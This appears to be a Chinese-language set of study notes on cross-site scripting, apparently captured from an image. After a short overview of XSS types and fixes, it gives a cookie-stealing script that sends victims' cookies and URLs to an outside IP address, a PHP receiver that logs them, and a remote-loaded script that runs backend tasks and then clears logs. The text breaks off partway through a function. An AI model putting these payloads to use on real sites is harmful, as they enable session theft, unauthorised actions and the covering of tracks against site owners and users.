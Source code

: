
























```
漏洞原理：接受输入数据，输出显示数据后解析执行
基础类型：反射(非持续)，存储(持续)，DOM-BASE
拓展类型：jquery，mxss，uxss，pdfxss，flashxss，上传xss等
常用标签：https://www.freebuf.com/articles/web/340080.html
攻击利用：盲打，COOKIE盗取，凭据窃取，页面劫持，网络钓鱼，权限维持等
安全修复：字符过滤，实例化编码，http_only，CSP防护，WAF拦截等
测试流程：看输出想输入在哪里，更改输入代码看执行（标签，过滤决定）

#XSS跨站-攻击利用-凭据盗取
条件：无防护Cookie凭据获取
利用：XSS平台或手写接受代码
触发：<script>var url='http://47.94.236.117/getcookie.php?u='+window.location.href+'&c='+document.cookie;document.write("<img src="+url+" />");</script>
接受：
<?php
$url=$_GET['u'];
$cookie=$_GET['c'];
$fp = fopen('cookie.txt',"a");
fwrite($fp,$url."|".$cookie."\n");
fclose($fp);
?>

#XSS跨站-攻击利用-数据提交
条件：熟悉后台业务功能数据包，利用JS写一个模拟提交
利用：凭据获取不到或有防护无法利用凭据进入时执行其他
<script src="http://xx.xxx.xxx/poc.js"></script>
function poc(){
  $.get('/service/app/tasks.php?type=task_list',{},function(data){
    var id=data.data[0].ID;
    $.post('/service/app/tasks.php?type=exec_task',{
      tid:id
    },function(res2){
        $.post('/service/app/log.php?type=clearlog',{
            
        },function(res3){},"json");
        
      
    },"json");
  },"json");
}
function save(){
  var data=new Object();
  data.task_id="";
  data.title="test";
  data.exec_cycle="1";
  data.week="1";
  data.day="3";
  data.hour="14";
  data.minute = "20";
```